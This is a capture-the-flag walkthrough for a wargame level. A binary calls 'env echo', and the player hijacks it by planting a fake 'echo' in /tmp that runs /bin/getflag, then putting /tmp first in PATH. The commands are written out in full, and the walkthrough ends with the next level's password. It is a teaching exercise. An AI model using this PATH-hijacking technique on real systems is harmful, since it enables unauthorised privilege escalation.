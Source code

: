 In this level we find a file level03, doing `ls -la` we can see tha only its owner (level03) can execute that file as file03.

So lets execute it:

```jsx
./level03
```

We get the message `Exploit me` 

This string must be in the file so we will use the command `strings` to find it:

```jsx
strings level03 | grep "Exploit me"
```

We get this line:

```bash
/usr/bin/env echo Exploit me
```

We see the file use the binary `user/bin/env echo` to print “Exploit me” so we will exploit it.

We will create a file named `echo` and this file will execute `/bin/getflag` 

As usually we will create it in `/tmp` folder due to permission restriction

```bash
cd /tmp
echo "/bin/getflag" > echo
chmod 777 echo
```

Now let’s export this path so it is called first (adding it to the beginning of the old one)

```bash
export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now let’s go back to the main folder and exploit the file:

```bash
cd
./level03
```

And there we go, we get the next token so lets find the flag

```bash
su level04
password qi0maab88jeaj46qoumi7maus
```